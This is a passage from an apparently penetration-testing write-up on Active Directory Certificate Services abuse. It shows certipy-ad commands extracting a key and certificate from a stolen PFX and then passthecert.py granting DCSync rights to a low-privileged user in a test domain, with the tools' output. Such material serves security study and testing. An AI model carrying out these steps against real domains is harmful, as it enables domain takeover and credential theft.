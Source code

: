 ```json
    "None"
],
"Private Key Flag": [
    "101056512"
],
"Extended Key Usage": [
    "Client Authentication",
    "Server Authentication"
],
"Requires Manager Approval": false,
"Requires Key Archival": false,
"Authorized Signatures Required": 0,
"Validity Period": "1 year",
"Renewal Period": "6 weeks",
"Minimum RSA Key Length": 2048,
"domain": "REDACTED"
}
```

I think that one of the above situations is more likely to have occurred than PKINIT not being supported. I think something like this happened:

- The certificate from the vulnerable template was issued by a SUB certificate authority e.g. `SUB05`
- This CA allows authenticating clients, according to the template's EKU's.
- However, the domain controller might not trust certificates issued by `SUB05` to authenticate
  
## KDC_ERR_PADATA_TYPE_NOSUPP
In cases where PKINIT should not be enabled and the error results in `KDC_ERR_PADATA_TYPE_NOSUPP`, it is still possible to use the PFX to DCSync, using the same technique as described in [KDC_ERR_ETYPE_NOSUPP](#kdc_err_etype_nosupp)

We first export the certifcate and key from the PFX:
```sh
┌──(kali㉿kali)-[~]
└─$ certipy-ad cert -pfx otheradmin.pfx -nocert -out otheradmin.key   
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Writing private key to 'otheradmin.key'
                                                                                                                                           
┌──(kali㉿kali)-[~]
└─$ certipy-ad cert -pfx otheradmin.pfx -nokey -out otheradmin.crt
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Writing certificate and  to 'otheradmin.crt'
```

And now we set de DCsync rights for our low privileged user using [PassTheCert.py](https://raw.githubusercontent.com/AlmondOffSec/PassTheCert/refs/heads/main/Python/passthecert.py):
```sh
┌──(kali㉿kali)-[~]
└─$ python3 passthecert.py -action modify_user -crt otheradmin.crt -key otheradmin.key -target testuser -elevate -domain testcorp.local -dc-host 172.17.199.253
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Granted user 'testuser' DCSYNC rights!
```
